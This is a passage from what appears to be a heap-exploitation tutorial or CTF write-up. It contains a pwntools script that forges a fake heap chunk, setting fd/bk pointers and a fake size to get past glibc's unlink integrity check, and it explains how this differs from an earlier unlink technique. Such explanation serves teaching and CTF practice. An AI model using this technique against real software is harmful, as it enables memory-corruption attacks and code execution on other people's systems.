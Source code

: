 ```python

payload = p64(0) + p64(0x101) + p64(address) * 2 + "A"*0xe0

'''

P64(address) * 2 is to bypass
if (__builtin_expect (FD->bk != P || BK->fd != P, 0))                      \

  malloc_printerr ("corrupted double-linked list");

'''

payload += p64(0x100) #fake size

p.sendline(payload)

p.recvuntil("input s1\n")

payload = "A"*0x10 + p64(0x220) + "\x00"

p.sendline(payload)

p.recvall()

p.close()

```



**Note that the method of bypassing unlink checking here is different from the method used in the previous unlink vulnerability.


When using the unlink vulnerability:


```c

 p->fd = &p-3*4

 p->bk = &p-2*4

```



When used here, because there is no way to find `&amp;p`, so let directly:

```c

p->fd = p

p->bk = p

```
